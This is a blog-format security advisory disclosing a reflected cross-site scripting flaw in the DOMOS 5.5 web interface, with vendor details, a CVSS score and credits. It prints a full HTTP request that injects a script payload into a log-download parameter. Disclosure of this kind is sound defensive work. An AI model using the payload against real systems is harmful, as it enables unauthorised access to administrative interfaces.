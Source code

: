 ```yaml
---
layout: post
title: "CVE-2019-xxxx: Reflected XSS in DOMOS"
date:   2019-11-01 15:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SECUDOS GmbH
- Product: DOMOS
- Version: 5.5
- Vulnerability: Relected Cross-Site Scripting
- Fixed Version: 5.6

# Background

DOMOS is an own and hardened operating system of SCUDOS GmbH. The operating system is used as a platform by several applications. It also offers a web interface for the administration of operating system settings.

# Issue Description

While analyzing the implementation of the DOMOS web interface, one reflected Cross-Site-Scripting vulnerability has been identified, which can be exploited in order to read password hashes from the file system. This vulnerability can be exploited by authenticated attackers with access to the web interface.

Please consider the following complete HTTP-Request:

__HTTP-Request__

~~~ http
GET /page/sl_logdl?dcfct=DCMlog.download_log&dbkey%3Asyslog.rlog=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1

Host: 10.10.10.1:10000
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
  (KHTML, like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: L=german; S=WdylJWgYQfqXVu1VkvBP9pwxBdh91bhDWB87eB5h;
session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611
~~~

# CVE

[CVE-2019-xxxx](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-xxxx)

# CVSSv3 Base Score

CVSS Base Score: __3.5__

CVSS:3.0/AV:N/AC:H/PR:L/UI:R/S:U/C:L/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
